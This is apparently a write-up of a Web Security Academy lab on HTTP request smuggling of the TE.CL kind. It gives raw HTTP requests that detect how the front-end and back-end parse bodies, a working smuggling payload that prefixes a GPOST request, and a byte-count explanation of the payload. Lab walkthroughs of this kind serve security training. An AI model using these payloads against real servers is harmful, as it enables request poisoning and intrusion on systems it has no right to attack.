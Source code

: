 # HTTP request smuggling, basic TE.CL vulnerability
# Objective
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. \
The front-end server rejects requests that aren't using the GET or POST method. \
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

# Solution
## Determinig what the front-end is using
If front-end uses `Transfer-Encoding` header it should response with error, because `X` is not valid chunk size.
```
POST / HTTP/1.1
Host: 0a6100460314d8ba842f0f1000170065.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Transfer-Encoding: chunked

4
test
X

```
|![](Images/image-3.png)|
|:--:| 
| *Error - Front-end is using Transfer Encoding header* |

## Determining what the back-end is using
If back-end uses `Content-Length` header it should wait for all the bytes defined in `Content-Length` header. In the example below, the last byte (`X`) is striped by front-end becouse it uses `Transfer-Encoding` header (`0`indicates the end of the message).
```
POST / HTTP/1.1
Host: 0a6100460314d8ba842f0f1000170065.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X

```
|![](Images/image-4.png)|
|:--:| 
| *No response* |
|![](Images/image-5.png)|
| *Time-out - Back-end is using Content Length header* |

## Exploitation
```
POST / HTTP/1.1
Host: 0a180087043380db80f8a3db007700e3.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The `Content-Length: 4` value:
```
5c\r\n                                                              +4
GPOST / HTTP/1.1\r\n                                                +0
Content-Type: application/x-www-form-urlencoded\r\n                 +0
Content-Length: 15\r\n                                              +0
\r\n                                                                +0
x=1                                                                 +0 
```

The `bytes number 5c` value:
```
5c\r\n                                                              +0
GPOST / HTTP/1.1\r\n                                                +18
Content-Type: application/x-www-form-urlencoded\r\n                 +49
Content-Length: 15\r\n                                              +20
\r\n                                                                +2
x=1                                                                 +3 
```
The `Content-Length: 15` of the smuggled request must be bigger (at least by one) then the actual size of the smuggled request payload. This ensures that it will be trigered (few bytes of the normal request will be appened to the smuggled request).

|![](Images/image-6.png)|
|:--:| 
| *First request - poisoning* |
|![](Images/image-7.png)|
| *Second request - request was smuggled* |
|![](Images/image-8.png)|
| *Second request with visible signs "\r" and "\n"* |
